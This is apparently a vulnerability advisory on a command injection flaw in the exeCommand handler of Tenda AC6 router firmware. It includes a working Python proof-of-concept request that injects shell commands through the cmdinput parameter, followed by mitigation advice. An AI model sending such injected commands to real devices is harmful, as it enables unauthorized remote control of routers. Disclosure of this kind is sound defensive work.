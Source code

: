 # Command Injection Vulnerability in Tenda AC6 Firmware

## Vulnerability Overview
There is a **Command Injection** vulnerability in the **Tenda AC6 firmware version 15.03.05.16_multi**. The vulnerability exists in the **exeCommand** function of the firmware. Specifically, the **cmdinput** parameter, which is passed via HTTP, allows attackers to inject arbitrary commands into the system. This vulnerability allows attackers to execute arbitrary system commands, potentially gaining unauthorized access or causing other system misconfigurations.

The issue arises from improper sanitization of user-supplied input, where an attacker can exploit the **cmdinput** parameter to inject and execute arbitrary commands. For example, an attacker could inject commands like `ls` to list directories, or use other commands to read sensitive files or execute malicious actions remotely. ![Root Cause of Command Injection Vulnerability](1.png)

## Affected Versions
- Tenda AC6 Firmware version 15.03.05.16_multi

## Impact
- Command Injection
- Unauthorized access to the system
- Potential for information disclosure or system compromise

![PoC](2.png)
## Proof of Concept (PoC)

```python
import requests

host_port = "http://192.168.101.50:8008"
url = "/goform/exeCommand"

data = {
    "cmdinput": "ls; ls > /execcommand.txt;"  # Example command injection
}

response = requests.post(host_port + url, data=data)

# Print the response code and content
print("Response status code: ", response.status_code)
print("Response content: ", response.text)


### PoC Run Results:

After sending the crafted request with the injected command (`ls`), the command is successfully executed on the device. The response returned includes the output of the executed command. Specifically, the file system's directory listing is displayed, showing the contents of the device's directories.

- **Command Executed**: `ls` (list directories)
- **Output**: The directory contents are printed as expected, confirming that the command injection was successful and arbitrary system commands can be executed remotely.

This indicates that the device is vulnerable to command injection attacks, as the attacker was able to execute a basic `ls` command remotely and retrieve the file system's contents.

## Mitigation
- Apply the latest firmware update from Tenda to address this issue.
- Ensure proper input validation and sanitization to prevent command injection attacks.

![PoC Execution Result](3.png)
